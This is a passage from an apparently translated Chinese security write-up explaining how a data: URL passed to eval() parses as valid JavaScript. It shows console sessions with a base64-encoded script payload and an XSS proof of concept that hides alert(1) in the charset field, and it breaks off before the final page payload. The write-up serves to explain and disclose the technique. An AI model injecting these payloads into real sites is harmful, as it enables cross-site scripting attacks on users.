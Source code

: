 ```
&gt; eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ')
VM42:1 Uncaught ReferenceError: text is not defined
    at eval (eval at &lt;anonymous&gt; ((index):1), &lt;anonymous&gt;:1:6)
    at &lt;anonymous&gt;:1:1
```

“text”未定义？什么鬼！这里我专门定义了一个“text = 1”，然后再次运行我的eval()：

```
&gt; text = 1
1
&gt; eval('data:text/html;base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ')
VM70:1 Uncaught ReferenceError: html is not defined
    at eval (eval at &lt;anonymous&gt; ((index):1), &lt;anonymous&gt;:1:11)
    at &lt;anonymous&gt;:1:1
```

结尾没有“+”符号的URL是有效的JavaScript，下面给出的是带有缩进格式和注释的URL：

```
data: // a label for a goto
text/html; // divides the variable text by the variable html
base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ // evalutes the base64 variable and the PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt9LCAiKiIpPC9zY3JpcHQ variable then returns the latter (see , operator)
```

虽然这些代码看起来怪怪的，但它确实是有效的JavaScript代码。字符串结尾的“+”字符只是Base64编码的标准格式，无需过多关注。如果字符串结尾部分为“+”，我将添加无效字符来填充Base64编码，并且让最终的编码字符串为一个有效的变量名。



## XSS漏洞利用

现在，我们可以用编码后的JavaScript来调用eval()函数了。那么接下来，我们应该把“alert(document.domain)”放在哪儿呢？没错，我们还是得回去翻一下MDN文档，，查看一下关于Data URL的更多内容：

[![](https://p2.ssl.qhimg.com/t01ee20d57a8c3faa1a.png)](https://p2.ssl.qhimg.com/t01ee20d57a8c3faa1a.png)

其中的“;charset=US-ASCII”成功吸引到了我的注意。我是不是可以把我的Payload放在这里呢？而且这跟JavaScript的格式也很像！所以我在控制台中尝试了下列代码：

```
&gt; text = 1
1
&gt; html = 1
1
&gt; eval('data:text/html;charset=alert(1);base64,whatever')
Uncaught ReferenceError: base64 is not defined
    at eval (eval at &lt;anonymous&gt; ((index):1), &lt;anonymous&gt;:1:33)
    at &lt;anonymous&gt;:1:1
```

终于成功了！警告弹窗一切正常，虽然代码报错“base64未定义“，但最终的Base64编码在弹窗时还是成功的，所以我也不想管它了。接下来，我们在Web页面上尝试一下。我把我的Payload修改为了：

